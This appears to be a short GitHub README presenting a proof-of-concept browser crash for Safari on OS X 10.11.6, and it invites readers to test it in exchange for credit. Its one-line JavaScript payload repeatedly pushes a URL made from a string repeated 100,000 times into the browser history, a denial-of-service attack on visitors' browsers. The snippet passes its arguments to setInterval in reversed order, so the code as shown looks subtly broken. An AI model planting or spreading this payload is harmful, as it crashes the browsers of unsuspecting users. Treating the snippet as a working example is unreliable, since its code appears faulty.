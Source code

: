# safari_crash_poc
This is a POC of my bug that exploits "setInterval" and "history.pushState" to crash possibly multiple browsers, tested on OS X 10.11.6. (Please test it, I need to get an idea of support. I'll patch in your Twitter handle or give you a 3 character available GitHub. )
```javascript
setInterval(350,function f() {history.pushState(0,0,location+"ihateyou".repeat(100000));});
```
# credits
There are none. Yet. 
